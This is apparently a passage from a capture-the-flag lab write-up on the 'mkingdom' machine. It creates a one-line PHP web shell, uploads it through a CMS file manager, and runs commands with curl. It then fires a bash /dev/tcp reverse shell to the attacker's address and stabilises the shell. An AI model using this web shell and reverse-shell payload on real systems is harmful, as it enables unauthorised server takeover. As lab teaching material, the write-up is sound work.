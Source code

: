 ```console
$ echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

After this, using the `File Manager` at `http://10.10.69.96:85/app/castle/index.php/dashboard/files/search`, we can upload our webshell.

![Web 85 App Castle Admin Webshell Upload](web_85_app_castle_admin_webshell_upload.webp){: width="1200" height="600" }

When the upload is complete, the application displays the path to the uploaded file.

![Web 85 App Castle Admin Webshell Path](web_85_app_castle_admin_webshell_path.webp){: width="1200" height="600" }

We are able to reach our webshell with the displayed path and run commands.

```console
$ curl -s 'http://10.10.69.96:85/app/castle/application/files/5317/1840/1527/shell.php?cmd=id'
uid=33(www-data) gid=33(www-data) groups=33(www-data),1003(web)
```
{: .wrap }

Using a reverse shell payload like `bash -c 'bash -i >& /dev/tcp/10.11.72.22/443 0>&1'`, we get a shell as www-data.

```console
$ curl -s 'http://10.10.69.96:85/app/castle/application/files/5317/1840/1527/shell.php' -G --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.11.72.22/443 0>&1'"
```
{: .wrap }

```console
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.72.22] from (UNKNOWN) [10.10.69.96] 40262
bash: cannot set terminal process group (1313): Inappropriate ioctl for device
bash: no job control in this shell
www-data@mkingdom:/var/www/html/app/castle/application/files/5317/1840/1527$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<n/files/5317/1840/1527$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@mkingdom:/var/www/html/app/castle/application/files/5317/1840/1527$ export TERM=xterm
<html/app/castle/application/files/5317/1840/1527$ export TERM=xterm
www-data@mkingdom:/var/www/html/app/castle/application/files/5317/1840/1527$ ^Z
zsh: suspended  nc -lvnp 443

$ stty raw -echo; fg
[1]  + continued  nc -lvnp 443

www-data@mkingdom:/var/www/html/app/castle/application/files/5317/1840/1527$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data),1003(web)
```

## Shell as mario

### SUID binary to discover credentials
